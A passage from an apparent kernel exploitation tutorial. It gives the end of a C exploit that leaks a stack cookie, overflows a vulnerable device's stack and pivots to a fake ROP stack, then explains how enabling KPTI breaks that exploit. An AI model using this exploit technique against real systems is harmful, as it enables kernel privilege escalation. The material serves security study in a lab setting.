 }

uint64_t mov_esp_pop2_ret = 0xffffffff8196f56a; // mov esp, 0x5b000000 ; pop r12 ; pop rbp ; ret

void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) mov_esp_pop2_ret;  // stack pivot gadget

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    build_fake_stack();
    overflow_stack();
    return 0;
}
{% endhighlight %}

# Adding KPTI
Next, we will add Kernel page-table isolation (KPTI).

For this we edit `run.sh` to include `-append "console=ttyS0 kpti=1
nokaslr quiet panic=1"`.

KPTI is a mechanism to isolate kernel page tables from user space. In
user space only the necessary page tables from the kernel are mapped
that allow to switch to kernel mode.

Thus, if we execute the previous exploit, we get a segmentation fault,
instead of a kernel panic. This happens, as the system tries to access
pages from the kernel while in user mode that are not mapped anymore.

The following ASCII art illustrates the results of KPTI.

```
   Without KPTI                              With KPTI

+----------------+            +----------------+   +----------------+
|                |            |                |   |                |
|  Kernel pages  |            |  Kernel pages  |   |                |
|                |            |                |   +----------------+
|                |            |                |   |  Kernel pages  |
+----------------+            +----------------+   +----------------+
|                |            |                |   |                |
|                |            |                |   |                |
|                | ---------> |                |   |                |
|                |            |                |   |                |
|  User pages    |            |  User pages    |   |  User pages    |
|                |            |                |   |                |
|                |            |                |   |                |
|                |            |                |   |                |
|                |            |                |   |                |
|                |            |                |   |                |
|                |            |                |   |                |
+----------------+            +----------------+   +----------------+

 User + Kernel                Kernel mode          User mode
 mode
```